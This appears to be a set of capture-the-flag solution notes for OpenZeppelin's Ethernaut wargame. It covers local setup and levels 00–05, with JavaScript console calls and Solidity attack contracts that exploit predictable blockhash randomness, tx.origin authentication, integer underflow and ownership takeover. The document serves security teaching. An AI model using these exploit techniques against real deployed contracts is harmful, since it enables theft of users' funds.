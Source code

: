 # Ethernaut

## Setup

Install and run locally, since the version on https://ethernaut.openzeppelin.com is in read-only mode

```sh
# Install nvm

git clone https://github.com/OpenZeppelin/ethernaut.git
cd ethernaut

nvm install # Use the version specified in .nvmrc
nvm use
npm install --global yarn
yarn install

# Launch a local network (in a separate shell) with `yarn network`
# Import one of the private keys into MetaMask

# Verify ACTIVE_NETWORK = NETWORKS.LOCAL in client/src/constants.js
yarn deploy:contracts
# It may be necessary to explicitly change http://localhost to http://127.0.0.1 in client/src/constants.js
# (Most /etc/hosts include an ipv6 entry for localhost which can apparently cause problems)
yarn start:ethernaut
```

## 00 Hello Ethernaut

```js
await contract.info()
await contract.info1()
await contract.info2("hello")

// Can tell infoNum() returns a uint8 from contract.abi
(await contract.infoNum()).toString()

await contract.info42()
await contract.theMethodName()
await contract.method7123949()
await contract.password()
await contract.authenticate("ethernaut0")
```

## 01 Fallback

```js
(await contract.contributions(await contract.owner())).toString()
await contract.contribute({value: 1})
(await contract.contributions(player)).toString()
await sendTransaction({to: contract.address, from: player, value: 1})
await contract.owner() == player
await contract.withdraw()
await getBalance(contract.address) == 0
```

## 02 Fallout

```js
// The Fal1out (sp) function is not a constructor
await contract.owner()
await contract.Fal1out()
await contract.owner() == player
```

## 03 Coin Flip

Create a Hardhat project

```sh
mkdir 03-coin-flip
cd 03-coin-flip
npm init
npm install -D hardhat
npx hardhat # Create a JavaScript project
```

With the following contract

```sol
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {
    ICoinFlip public target;

    constructor(address _target) {
        target = ICoinFlip(_target);
    }

    function attack() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
```

Compile with `npx hardhat compile`

Create a deploy/execute script (as scripts/deploy.js)

```js
const hre = require("hardhat");

async function main() {
  const target = "<target contract address>";
  const contract = await hre.ethers.deployContract("CoinFlipAttack", [target]);
  await contract.waitForDeployment();
  console.log(`Contract address: ${await contract.getAddress()}`);

  for (let i=0; i<10; i++) {
    (await contract.attack()).wait();
    console.log(`Attack ${i+1} complete`);
  }
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```

Include the local network in hardhat.config.js

```js
module.exports = {
  // ...
  networks: {
    ethernaut: {
      url: "http://127.0.0.1:8545",
      chainId: 1337,
      accounts: ["<private key>"]
    }
  }
}
```

Deploy/execute the contract with `npx hardhat run scripts/deploy.js --network ethernaut`

Can verify with `await contract.consecutiveWins() == 10` in the Ethernaut Javascript console

Note that when submitting the instance in the Ethernaut interface will need to update the nonce used by MetaMask since transactions occurred using Hardhat.  Enable this for the account in Settings, Advanced, Customize transaction nonce.

## 04 Telephone

Ref: https://ethereum.stackexchange.com/a/1892

```sol
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneAttack {
    ITelephone public target;

    constructor(address _target) {
        target = ITelephone(_target);
    }

    function attack() external {
        target.changeOwner(tx.origin);
    }
}
```

## 05 Token

```js
(await contract.balanceOf(player)).toString()
(await contract.balanceOf(level)).toString()

// Must send to another address (ie not player) otherwise underflow effects will be negated
await contract.transfer(level, 21)

(await contract.balanceOf(player)).toString()
(await contract.balanceOf(level)).toString()
```
